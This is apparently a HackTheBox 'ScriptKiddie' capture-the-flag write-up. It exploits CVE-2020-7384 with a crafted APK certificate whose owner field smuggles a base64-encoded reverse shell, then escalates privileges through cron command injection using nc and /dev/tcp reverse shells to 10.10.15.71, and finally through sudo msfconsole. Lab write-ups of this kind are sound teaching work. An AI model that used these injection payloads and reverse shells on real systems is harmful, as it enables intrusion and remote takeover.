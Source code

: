 ```yaml
---
title: Hackthebox - ScriptKiddie
date: 2021-05-21 00:00:00 +0530
categories: [hackthebox, linux]
tags: [metasploit, cve-2020-7384, msfconsole]     # TAG names should always be lowercase
image: /assets/img/posts/scriptKiddie/scriptKiddie_banner.png
---
```



![](/assets/img/posts/scriptKiddie/scriptKiddie_banner.png)



<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.226 scriptKiddie.htb

**nmap scan:**
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 5000 running Werkzeug httpd 0.16.1 (Python 3.8.5)

![](/assets/img/posts/scriptKiddie/web-page.png)

* There is no command injection or lfi.
* searchsploit and nmap don't have any known vulnerability.
* msfvenom have a template option which is vulnerable.
  * **Description:** This module exploits a command injection vulnerability in Metasploit Framework's msfvenom payload generator when using a crafted APK file as an Android payload template. Affects Metasploit Framework <= 6.0.11 and Metasploit Pro <= 4.18.0. The file produced by this module is a relatively empty yet valid-enough APK file. To trigger the vulnerability, the victim user should do the following: `msfvenom -p android/<...> -x` 
  * [CVE-2020-7384 Rapid7](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/)
    * msf module: `exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`
  * [Exploit script](https://www.exploit-db.com/exploits/49491)

# Foothold

## Command Injection

The command vulnerability is in step 2 of this process from [apk.rb#L194-L197](https://github.com/rapid7/metasploit-framework/blob/64695f1/lib/msf/core/payload/apk.rb#L194-L197). keytool is executed using the following command line:
```rb
      run_cmd("keytool -genkey -v -keystore #{keystore} \
      -alias #{keyalias} -storepass #{storepass} -keypass #{keypass} -keyalg RSA \
      -keysize 2048 -startdate '#{orig_cert_startdate}' \
      -validity #{orig_cert_validity} -dname '#{orig_cert_dname}'")
```

In particular, the value for `orig_cert_dname` is obtained from step 1 of the process, where the original APK was parsed and the "Owner" field was extracted from the APK's signature.

This command string is passed to `Open3.popen3()` in [apk.rb#L29-L36](https://github.com/rapid7/metasploit-framework/blob/64695f1/lib/msf/core/payload/apk.rb#L29-L36). When this function receives a single string parameter (as opposed to multiple parameters) it effectively acts as a `system()` function.
```rb
  def run_cmd(cmd)
    begin
      stdin, stdout, stderr = Open3.popen3(cmd)
      return stdout.read + stderr.read
    rescue Errno::ENOENT
      return nil
    end
  end
```

This gives rise to a command injection vulnerability. If a crafted APK file has a signature with an **"Owner"** field containing:
```bash
#A single quote (to escape the single-quoted string)
#Followed by shell metacharacters
#and run_cmd() function see it like that
-dname '#{CN='|echo cGluZyAtYyAyIDEwLjEwLjE1Ljcx | base64 -d | sh #}'
```

When that APK file is used as an msfvenom template, arbitrary commands can be executed on the msfvenom user's system.

* [Detailed advisories](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md)
* [commit changes](https://github.com/rapid7/metasploit-framework/pull/14288/commits/d1528cc0aa48ac667304f1e5116a784fe2dc8f15)

![](/assets/img/posts/scriptKiddie/template-injection.png)

### Exploit

This is a command injection vulnerability. When user supply a template apk to msfvenom , it takes application read it's certificate and use cert's owner for resign apk but don't check for strings certificate.

1. Create empty apk file
```bash
touch empty && zip -j payload.apk empty
```

![](/assets/img/posts/scriptKiddie/create-apk.png)

2. Create cert and add injection payload in `-dname` field
```bash
keytool -genkey -keystore ./signing.keystore -alias "signing.key" -storepass "password" -keypass "password" -keyalg RSA -keysize 2048 -dname "CN='|echo L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE1LjcxLzQxNDEgMD4mMScK | base64 -d | sh #"
```

![](/assets/img/posts/scriptKiddie/create-cert.png)

3. sign the apk with created cert
```bash
jarsigner -sigalg SHA1withRSA -digestalg SHA1 -keystore ./signing.keystore -storepass "password" -keypass "password" payload.apk "signing.key"
```

![](/assets/img/posts/scriptKiddie/signed-apk.png)

and this apk execute arbitrary code in the server and give reverse shell

![](/assets/img/posts/scriptKiddie/get-shell.png)

# Privesc

* Get shell as user "kid"
* user "pwn" have a bash script that taking content from user "kid" home folder.

![](/assets/img/posts/scriptKiddie/pwn-script.png)

* This can lead to command injection.
* Script execute by pwn cron when `/home/kid/logs/hackers` file get some data.
* using some extra words before payload to bypass `cut` command `cut -d' ' -f3-`
```bash
null null ;id|nc 10.10.15.71 4141 #
```

![](/assets/img/posts/scriptKiddie/cut-bypass.png)

pspy output

![](/assets/img/posts/scriptKiddie/pspy-lookup.png)

reverse shell
```bash
null null ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.71/4141 0>&1' #
```

![](/assets/img/posts/scriptKiddie/pwn-shell.png)

<!--echo "null null ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.71/4141 0>&1' #" > /home/kid/logs/hackers-->

## msfconsole with sudo

User have right to run `/opt/metasploit-framework-6.0.9/msfconsole` with sudo as root with no password
```bash
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

and inside msfconsole user "pwn" is root
```bash
sudo -u root /opt/metasploit-framework-6.0.9/msfconsole
```

![](/assets/img/posts/scriptKiddie/msf-root.png)
